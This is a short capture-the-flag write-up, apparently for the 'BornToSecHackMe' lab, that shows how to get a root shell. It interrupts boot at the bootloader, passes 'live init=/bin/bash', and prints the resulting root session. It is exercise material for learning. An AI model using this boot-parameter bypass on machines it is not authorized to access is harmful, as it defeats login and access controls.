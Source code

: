 # Bonus 2

By repeatedly pressing ESC when starting GRUB we have access to its console, therefore by pressing TAB we have the list of all available images, in our case only "live", so just write the command:
```shell
live init = /bin/bash
```
```shell
 aborted.
boot:
 live
boot: live init=/bin/bash
error: unexpectedly disconnected from boot status daemon
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@BornToSecHackMe:/# id
uid=0(root) gid=0(root) groups=0(root)
root@BornToSecHackMe:/# whoami
root
root@BornToSecHackMe:/# 
```